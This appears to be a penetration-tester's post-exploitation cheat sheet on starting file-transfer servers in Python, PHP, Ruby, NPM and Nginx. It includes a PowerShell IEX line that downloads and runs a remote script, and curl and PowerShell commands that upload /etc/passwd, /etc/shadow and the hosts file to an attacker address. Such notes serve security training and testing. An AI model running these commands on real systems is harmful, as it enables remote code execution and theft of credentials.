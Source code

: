 ```yaml
---
tags:
  - Post-Exploitation
  - DataTransfer
---
```


## Python 

```shell-session
python3 -m http.server --directory /home/user/target_files 443
```

### Upload Server

For our web server, we can use [uploadserver](https://github.com/Densaugeo/uploadserver), an extended module of the Python [HTTP.server module](https://docs.python.org/3/library/http.server.html), which includes a file upload page. Let's install it and start the webserver.

```shell-session
pip3 install uploadserver
```

```shell-session
python3 -m uploadserver
```

See [[CRT (Certificate Files)]]

```shell-session
sudo python3 -m uploadserver 443 --server-certificate ~/server.pem
```
#### PowerShell Script to Upload a File to Python Upload Server

```powershell-session
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
```
```powershell-session
Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts
```

#### Linux Upload Multiple Files 

```shell-session
curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```

### Python 2.7

```shell-session
python2.7 -m SimpleHTTPServer
```
# NPM

```
http-server
```

# PHP 

```
php -S 127.0.0.1:8000
```

# Ruby

```shell-session
ruby -run -ehttpd . -p8000
```


# Nginx - Enabling PUT

A good alternative for transferring files to `Apache` is [Nginx](https://www.nginx.com/resources/wiki/) because the configuration is less complicated, and the module system does not lead to security issues as `Apache` can.

